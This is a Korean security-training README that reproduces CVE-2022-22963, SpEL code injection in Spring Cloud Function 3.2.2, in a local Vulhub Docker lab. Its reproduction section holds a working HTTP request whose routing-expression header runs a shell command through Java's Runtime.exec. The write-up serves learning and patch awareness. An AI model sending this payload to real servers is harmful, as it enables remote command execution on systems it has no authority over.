



# 🔎 Spring Cloud Function SpEL 코드 주입 (CVE-2022-22963)
> 화이트햇 스쿨 3기 33반 조민형 (3868)

---


## 📖 목차
1. [요약](#요약)
2. [취약한 환경 구성](#취약한-환경-구성)
3. [취약점 재현](#취약점-재현)
4. [참고 자료](#참고-자료)

---

<br>

## 📌 요약

Spring Cloud Function은 AWS Lambda와 같은 FaaS(Function as a Service) 플랫폼을 포함하여 다양한 플랫폼에서 함수 기반 소프트웨어를 배포할 수 있도록 지원하는 공통 모델을 제공한다.  
그러나 **Spring Cloud Function 3.2.2 버전**에는 **SpEL(Spring Expression Language)을 통한 코드 주입 취약점**이 존재하며, 이를 악용해 **원격에서 명령어를 실행할 수 있다.**

---

<br>

## 🛠️ 취약한 환경 구성

1. 아래의 참고자료 1번을 참고하여 로컬 환경에 `docker-compose.yml` 파일 작성  
2. `docker-compose.yml`이 위치한 경로로 이동  
3. `docker compose up` 명령어를 통해 도커 컨테이너 실행  
   - 이미지가 로컬에 없다면 자동으로 설치됨 (`docker pull`)
   - `docker compose up --build`를 통해 이미지 새로 빌드 가능  

<br>

<p align="center">
  
</p>

---

<br>

## 🧪 취약점 재현

### 1. 스프링 서버 정상 실행 확인

도커 컨테이너 실행 후 아래와 같은 기본 페이지가 나타나면 정상적으로 서버가 열린 것이다.  

<p align="center">
  
</p>

---

### 2. SpEL 삽입을 통한 명령어 실행

요청 헤더에 `spring.cloud.function.routing-expression` 값을 통해 SpEL 표현식을 삽입하고,  
대상 서버에서 `touch /tmp/success` 명령어 실행

- 파이썬 코드로 전송 (`vulhub.py` 참고)
- 성공 시 `/tmp` 디렉토리에 `success` 파일 생성됨

```http
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

---

### 3. success 파일 존재 확인

`docker compose exec spring bash` 명령어로 컨테이너 내부 bash에 접속하여 `/tmp` 디렉토리에서 `success` 파일 확인 가능

- `docker compose exec spring bash`: spring이라는 컨테이너 안에서 bash 쉘을 실행하는 명령어

<p align="center">
  
</p>

---

<br>

## 📚 참고 자료

1. [Vulhub GitHub - CVE-2022-22963 환경 구성](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963)  
2. [VMware 공식 보안 공지](https://tanzu.vmware.com/security/cve-2022-22963)  
3. [중국 블로그의 공격 예시](https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw)  
4. [Spring Cloud Function 패치 커밋](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)
